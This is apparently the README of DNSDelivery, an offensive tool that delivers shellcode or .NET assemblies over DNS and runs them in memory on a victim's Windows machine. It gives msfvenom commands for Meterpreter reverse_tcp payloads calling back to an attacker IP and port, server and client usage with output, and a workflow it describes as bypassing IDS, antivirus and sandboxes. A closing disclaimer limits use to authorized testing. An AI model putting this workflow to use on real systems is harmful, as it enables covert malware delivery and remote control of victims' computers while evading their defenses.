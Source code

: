 DNS Delivery
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

DNSDelivery provides delivery and in memory execution of shellcode or .Net assembly using DNS requests delivery channel.

DNSDelivery has to sides:
  1. The server side, coming as a single python script (`dnsdelivery.py`), which acts as a custom DNS server, serving the payload data
  2. The client side (*victim's side*), which comes in two flavors:
    - `dnsdelivery.cs`: a C# script that can be compiled with `csc.exe` to provide a Windows managed executable
    - `Invoke-DNSDelivery`: a PowerShell script providing the exact same functionnalities

In order for the whole thing to work **you need to own your domain name** and set the DNS record for that domain to point to the server that will run the `dnsdelivery.py` server side.
For local testing purposes though, you can configure the client side scripts to point to any DNS server.

Dependencies
----------------------

The only dependency is on the server side, as the `dnsdelivery.py` script relies on the external **dnslib** library. You can installing it using pip:
```
pip install dnslib
```

Configuration
----------------------

The only mandatory configurable parameter on the client side is the DNS domain name you want to use (*the one you're running the DNS server side on*).
An optionnal configurable parameter is the DNS server you want to use. By default, it will use the system's default DNS server.

  - For the C# script, you need to edit the script and set the parameters in the PARAM class, comments and variable names are pretty self-explanatory. Then compile it using the built-in C# compiler csc.exe: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:dnsdelivery.exe *.cs`

  - For the PowerShell script, you can simply pass the parameters as arguments. Once the module is loaded into powershell simply check the syntax with `Get-Help Invoke-DNSDelivery`


Usage
----------------------

***SERVER SIDE***

Call the `dnsdelivery.py script with the appropriate parameters:
  - The `type` of content being delivered: can be either `shellcode` or `assembly`
  - The `filename` which is the name (*or path*) of the file being delivered

If a `shellcode` type is to be delivered, it **must** be a **raw** type shellcode obtained, for instance, from metasploit:

```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > myShellcodeFile.raw
```

Example of delivering a shellcode:
```
root@kali:~# ./dnsdelivery.py shellcode myShellcodeFile.raw
[*] File [myShellcodeFile.raw] successfully loaded
[*] Data split into [5] chunks of 250 bytes
[*] DNS server listening on port 53
[*] Serving [myShellcodeFile.raw] advertised as a [shellcode] data type
```

Example of delivering a .Net assembly:
```
root@kali:~# ./dnsdelivery.py assembly peloader.exe
[*] File [peloader.exe] successfully loaded
[*] Data split into [1058] chunks of 250 bytes
[*] DNS server listening on port 53
[*] Serving [peloader.exe] advertised as a [assembly] data type
```

***CLIENT SIDE***

If using the C# compiled Windows executable: simply execute it, the parameters are hardcoded within the script.

If using the PowerShell script, well, call it in any of your prefered way (*you probably know tons of ways of invoking a powershell script*) along with the script parameters. Most basic example:
```
c:\DNSDelivery> powershell
PS c:\DNSDelivery> Import-Module .\Invoke-DNSDelivery.ps1
PS c:\DNSDelivery> Invoke-DNSDelivery -DomainName mydomain.example.com -Verbose
[...]
```

Sample use cases
----------------------

I found this delivery method very useful and handy for delivering:

- any meterpreter shellcode
- full-fledged meterpreter executable (*standalone meterpreter executable, not staged*)
- any .Net assembly you can think of

while completely **bypassing perimeter security** (IDS, content analysis like AV and sandboxes on proxies, etc.).

Example of delivering a full-fledged meterpreter executable:

First create a non-staged meterpreter executable:
```
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f exe-only > meterpreter.exe
```
Second, encode this executable to a base64 string:
```
root@kali:~# cat meterpreter.exe > base64 -w 0 > meterpreter.b64
```

Third paste the base64 string (*yes, it can be huge, around 3MB*) into the `peLoader.cs` (thx @SubTee) available here [peloader.cs](https://github.com/Arno0x/CSharpScripts/blob/master/peloader.cs) and compile this into a Windows executable (*which by the way IS a .Net assembly*).

Eventually, serve it with DNSDelivery:
```
root@kali:~# ./dnsdelivery.py assembly meterpreter_peloader.exe
```
It can be long because the data is delivered over DNS, chunk by chunk (*250 bytes per chunk*), but who cares if it takes 10 minutes and you eventually get you full-fledged meterpreter executable loaded into memory and executed on the victim's machine :-)

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*